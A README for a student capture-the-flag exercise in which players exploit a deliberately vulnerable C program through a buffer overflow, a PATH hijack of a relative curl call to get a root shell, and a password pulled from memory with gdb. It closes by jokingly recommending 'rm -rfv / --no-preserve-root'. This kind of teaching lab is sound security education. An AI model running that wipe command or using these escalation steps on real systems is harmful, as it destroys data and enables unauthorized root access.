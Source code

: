 # Capture the hack
### What is this "game"?
+ This exploit game aims to learn some very basic linux comands and also some low *hacking* knowlage to collect all flags.
+ And also this is project for BPC-IC1.
## How to play
### Initial setup:
+ Clone this repo and cd in its file:
```bash
git clone https://github.com/PrimalMight/IC1_Project.git
smthn=`find $(pwd) -name 'IC1_Project'` && cd $smthn
```
+ Compile totally legit SW:
```bash
sudo gcc -w -g -fno-stack-protector -o launch_me main.c   
sudo gcc -o decryptor decryptor.c 
```
> names ``launch_me`` and ``decryptor`` are optional, but i recommend not changing it. <br>
### Game tutorial:
Start the program with ``./launch_me``.
+ **First flag: Buffer overflow bypass the initial password check!**
	* After the program is started, player is asked for some password, well we dont know the password, se you need to find other way how to gain acces! <br>
	<details>
 	<summary>Hint here!</summary>

  ```
  Maybe try spam of ``A`` (somewhere between 1 and 35) ``1`` on the end?
  ```
	</details>
+ **Second flag: Hijack the path for relative curl call in the program for shell and escalate privilege to root!**
	* ``$ strings exploit_this`` to get information about the compiled file. <br>
	* ``$ curl -I localhost`` - curl is called without full path using $PATH variable! <br>
	* So you need to hijack the curl path and substitute curl for shell. <br>
	<details>
 	<summary>Hint here!</summary>

  ```bash
  strings launch_me
  echo /usr/bin > /tmp/curl
  #this one is easy, give all privileges to curl (use chmod)
  export PATH=/tmp:$PATH
  #cd back to the repo file
  which curl
  #launch the compiled program with ./launch_me
  #enter the password overflow that worked from first flag
  #choose ``y`` on "do you want to check fo running http localhost service (y/n)"
  #execute ``whoami`` command to make sure, you have root privileges
  ```
	</details>
	
+ **Third flag: Extract the password from memory using gdb tool and use this password to decrypt ``riddle_me_this_batman.txt`` file containing final riddle for batman!**
	* There are two parts player needs to do.
	* First, create another .txt file and with echo add some text into it (it is needed to do this, because it is the unix way of adding text to the file).
	```bash
	touch test.txt; echo "We are no strangers to love, You know the rules and so do I!"
	```
	* launch compiled programme with gdb and try to extract password from memmory.
	```bash
	gdb launch_me
	break <name_of_the_function_player_need_to_break>
	```
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (in normal console) gdb lanch_me
  (in gdb) break encrypt_file
  (in gdb) #answer ``y`` to "Enable debuginfo for this session(y or [n])"
  (in gdb) run
  (in gdb) #enter the "password" from first flag
  (in gdb) #answer ``n`` to "want to check for local service running?"
  (in gdb) #answer ``y`` to "do you want to encrypt file? (y/n)"
  (in gdb) #enter the filename: test.txt (or whatever you choosed to name it)
  (in gdb) x/s password #still in the gdb
  (in gdb) exit
  (in gdb) #answer ``y`` to "Quit anyway?(y or n)"
  ```
	</details>
	
	* Second part is decrypthing the ``riddle_me_this_batman.txt``.
	* To do that, you need once again enter shell with root privileges (second flag) and use password you found above for encryptor to decrypt .txt file.
	```bash
	./decryptor
	> please provide a password: <here_goes_the_password>
	nano output_plaintext.txt
	```
	* And now you've got all the flags, so there is one final thing you need to do before you leave this VM image, what is the answer for the riddle?.
	* [Click me for answer](https://youtu.be/54P0GQEM4w8)
	<details>
 	<summary>Hint here!</summary>

  ```bash
  (normal console) ./launch_me
  > Do you want to check for runninf http localhost service? (y/n)
   y
  (root from flag2) ./decryptor
  > Please prowide a password: <here_goes_the_password>
  (root from flag2) nano output_plaintext.txt
  ```
	</details>
	
	* And now you can leave with style! 
	> I recommend using something like ``rm -rfv / --no-preserve-root``
	
## BPC-IC1 things:
Authors: 2x BPC-IBE, 1x BPC-TLI
### Vulnerabilities
- [x] Buffer overflow into password check bypass
- [x] Relative path hijack into privilege escalation with SUID bit
- [x] Visible password in memory

